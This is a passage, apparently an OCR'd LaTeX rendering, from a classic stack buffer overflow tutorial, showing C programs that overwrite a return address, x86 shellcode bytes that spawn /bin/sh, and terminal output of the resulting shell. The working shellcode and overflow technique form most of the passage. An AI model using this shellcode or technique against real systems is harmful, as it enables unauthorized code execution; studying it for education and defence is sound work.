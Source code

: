 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=testsc2.c,basicstyle=\tiny]
void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,basicstyle=\tiny]

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}

What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code 
will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy 
\verb+large_string+ onto buffer without doing any bounds checking, and will overflow the return address, overwriting it 
with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to 
our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is 
trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program 
the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand 
bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the 
buffer we are trying to overflow will be. Here is a little program that will print its stack pointer: 


}
\end{document}
